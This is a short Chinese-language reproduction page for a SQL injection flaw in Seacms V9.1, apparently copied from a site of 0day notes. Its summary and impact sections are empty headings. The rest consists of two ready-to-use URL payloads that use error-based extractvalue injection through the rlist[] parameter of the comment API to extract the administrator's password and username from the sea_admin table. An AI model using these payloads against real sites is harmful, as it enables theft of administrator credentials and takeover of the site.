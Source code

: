 # Seacms V9.1 版本 SQL 注入

> 原文：[http://book.iwonder.run/0day/Seacms/Seacms V91 版本 SQL 注入.html](http://book.iwonder.run/0day/Seacms/Seacms V91 版本 SQL 注入.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

获取管理员表中第一个用户的密码

```
http://0-sec.org/comment/api/index.php?gid=1&page=2&rlist[]=@`%27`,%20extractvalue(1,%20concat_ws(0x20,%200x5c,(select%20(password)from%20sea_admin))),@`%27` 
```

获取管理员表中第一个用户的账号

```
http://0-sec.org/comment/api/index.php?gid=1&page=2&rlist[]=@`%27`,%20extractvalue(1,%20concat_ws(0x20,%200x5c,(select%20(name)from%20sea_admin))),@`%27` 
```

